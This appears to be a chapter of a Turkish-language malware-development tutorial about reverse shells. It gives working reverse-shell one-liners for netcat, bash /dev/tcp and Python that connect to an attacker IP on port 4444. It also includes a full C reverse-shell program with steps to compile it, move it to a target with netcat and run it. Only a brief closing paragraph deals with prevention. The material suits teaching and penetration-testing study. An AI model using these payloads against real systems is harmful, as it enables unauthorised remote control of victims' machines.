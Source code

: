 \newpage
\subsection{3. ters kabuklar (reverse shells)}

﷽

![reverse shells](./images/4/2021-09-16_11-26.png){height=400px}    

Öncelikle, ters kabuk (reverse shell) gibi bir kavramı ele alacağız, çünkü bu, zararlı yazılım geliştirme alanında oldukça önemli bir konudur.      

### what is reverse shell?

Reverse shell or often called connect-back shell is remote shell introduced from the target by connecting back to the attacker machine and spawning target shell on the attacker machine. This usually used during exploitation process to gain control of the remote machine.

![rev shells](./images/4/shells.png)

Ters kabuk (reverse shell), genellikle `80`, `443`, `8080` gibi yaygın çıkış portlarından yararlanabilir.     

Ters kabuk, genellikle hedef makinenin güvenlik duvarı tarafından belirli portlardan gelen bağlantıları engellediği durumlarda kullanılır. Bu güvenlik duvarı kısıtlamasını aşmak için, Red Team uzmanları ve pentesterler ters kabuklar kullanır.     

Ancak, burada bir uyarı var: Bu durum, saldırganın kontrol sunucusunu açığa çıkarabilir ve hedef ağın ağ güvenlik izleme hizmetleri tarafından izler tespit edilebilir.  

Ters kabuk elde etmek için üç adım vardır:  
Öncelikle, saldırgan hedef sistemde veya ağda bir güvenlik açığından yararlanarak kod çalıştırma yeteneği elde eder.   
Daha sonra, saldırgan kendi makinesinde bir dinleyici (listener) kurar.    
Son olarak, saldırgan, güvenlik açığını sömürmek için savunmasız sisteme ters kabuk kodu enjekte eder.   

Bir başka önemli nokta daha var: Gerçek siber saldırılarda ters kabuk, sosyal mühendislik yoluyla da elde edilebilir. Örneğin, bir oltalama e-postası veya kötü amaçlı bir web sitesi aracılığıyla yerel bir iş istasyonuna yüklenen bir zararlı yazılım, bir komut sunucusuna giden bir bağlantı başlatabilir ve saldırganlara ters kabuk yeteneği sağlayabilir.       

![social engineering](./images/4/shells2.png){width="80%"}

Bu yazının amacı, hedef ana bilgisayar veya ağdaki bir güvenlik açığını istismar etmek değil, kod yürütmeyi gerçekleştirmek için kullanılabilecek bir güvenlik açığı bulma fikrini anlatmaktır.     

Hedef sistemde hangi işletim sisteminin kurulu olduğuna ve hangi servislerin çalıştığına bağlı olarak ters kabuk türü farklı olabilir; örneğin, `php, python, jsp` v.b dillerde olabilir.    

***

### dinleyici(listener)

Basitlik açısından, bu örnekte hedef sistemin herhangi bir port üzerinden dışarıya bağlantıya izin verdiğini varsayıyoruz (varsayılan `iptables` güvenlik duvarı kuralı). Bu durumda, dinleyici portu olarak `4444` kullanıyoruz. Ancak, istediğiniz başka bir portu da seçebilirsiniz. Dinleyici, `TCP/UDP` bağlantılarını veya soketlerini açabilen herhangi bir program ya da araç olabilir. Çoğu durumda, ben genellikle `nc` veya `netcat` aracını kullanmayı tercih ediyorum.    

```bash
nc -lvp 4444
```

- `-l`: dinleme modunu etkinleştirir.    
- `-v`: ayrıntılı mod (verbose).    
- `-p`: dinlenecek portu belirtir (burada `4444`).    
- `-n` (isteğe bağlı): DNS çözümlemesi yerine yalnızca sayısal IP adreslerini kullanır.     

Bu komut, her arayüzde port `4444` üzerinden gelen bağlantıları dinlemek için ayarlanmıştır. Ters kabuk bağlantısı sağlandıktan sonra, saldırgan bu dinleyici üzerinden hedef sistemle iletişim kurabilir.    

![listener](./images/4/2021-09-11_17-59.png)    

***

### ters kabuğu çalıştırma(örnekler)

Yine basitlik açısından, örneklerimizde hedef bir Linux makinesi olarak belirlenmiştir.   
**1. netcat**   
kullanımı:

```bash
nc -e /bin/sh 10.9.1.6 4444
```

Bu yazılımda `10.9.1.6` saldırı yapılacak aracın İP adresi ve `4444` dinlenen port.    

![netcat](./images/4/2021-09-11_18-04.png){width="80%"}

**2. netcat'ı -e'siz kullanma**    
Yeni Linux sistemlerde, varsayılan olarak `GAPING_SECURITY_HOLE` devre dışı bırakılmış netcat kullanılmaktadır, bu da netcat'in `-e` seçeneğinin mevcut olmadığı anlamına gelir.    

Bu durumda, ters kabuk oluşturmak için şu komut kullanılabilir:     

```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat without e](./images/4/2021-09-11_18-23.png){width="80%"}

Burada, ilk olarak mkfifo komutunu kullanarak `p` adlı adlandırılmış bir pipe (AKA FIFO) oluşturdum. `mkfifo` komutu, dosya sisteminde bir nesne oluşturur ve bu durumda, `p` adında bir "geri kanal" (backpipe) oluşturdum. Bu geri kanal, adlandırılmış bir boru (named pipe) türündedir. Bu FIFO, verileri shell'in girdisine taşıma amacıyla kullanılacaktır. Geri kanalımı `/tmp` dizininde oluşturdum, çünkü neredeyse her hesap bu dizine yazma yetkisine sahiptir. Bu, saldırıyı gerçekleştirirken izin sorunlarından kaçınmayı sağlar.     

**3. bash**   
Bu yöntem, eski Debian tabanlı Linux dağıtımlarında çalışmayabilir.   
kod:

```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](./images/4/2021-09-11_18-12.png){width="80%"}

**4. python**

Yarı etkileşimli bir shell oluşturmak için python kullanabilirsiniz. Hedef makinede şu komutu çalıştırabilirsiniz:    

```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](./images/4/2021-09-11_18-36.png){width="80%"}

Daha detaylı örnekler: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

***

### C ile ters kabuk(reverse shell) oluşturma

En sevdiğim kısım. Siber güvenliğe programlama geçmişiyle geldiğimden beri, "tekerleği yeniden icat etmek" yani, bir şeylerle uğraşmaktan keyif alıyorum ve bu öğrenme yolu bazı şeyleri anlamak için yardımcı oluyor.    

Dediğim gibi şimdi Linux hedef makinesi için bir ters kabuk yazalım.      

`shell.c` adlı dosya oluşturuyorum:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "10.9.1.6";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Kodu derleyelim:
```bash
gcc -o shell shell.c -w
```

![c rev shell compile](./images/4/2021-09-11_18-53.png){width="80%"}

*If you compile for 32-bit linux run:* ```gcc -o shell -m32 shell.c -w```

*Eğer 32-bitlik Linux makinesinde derliyorsanız:* ```gcc -o shell -m32 shell.c -w```

Dosyayı hedef makineye aktarmayı başlayalım. Dosya aktarımı, sömürü sonrası (post-exploitation) aşamalarında en önemli adımlardan biri olarak kabul edilir. Burada, netcat aracını kullanarak bu işlemi gerçekleştireceğiz.    

Netcat, bir hackerın İsviçre çakısı olarak bilinir.     

hedef makinede çalıştır:
```bash
nc -lvp 4444 > shell
```

saldırgan makinede çalıştır:
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

![file transfer via netcat](./images/4/2021-09-11_19-09.png){width="80%"}

kontrol etmek için:
```bash
./shell
```

![run](./images/4/2021-09-11_19-41.png){width="80%"}

[Kaynak kodu Git hub’tan bulursunuz](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

### Önleme

Ne yazık ki, ters kabukları tamamen engellemenin bir yolu yoktur. Ters kabukları uzaktan yönetim amacıyla bilinçli olarak kullanmadığınız sürece, herhangi bir ters kabuk bağlantısı muhtemelen kötü niyetlidir. Sömürüyü sınırlamak için, yalnızca gerekli hizmetler için belirli uzak IP adreslerine ve portlara izin vererek çıkış bağlantılarını kısıtlayabilirsiniz. Bu, sanal bir ortamda çalıştırarak veya sunucuyu minimal bir konteyner içinde çalıştırarak gerçekleştirilebilir.      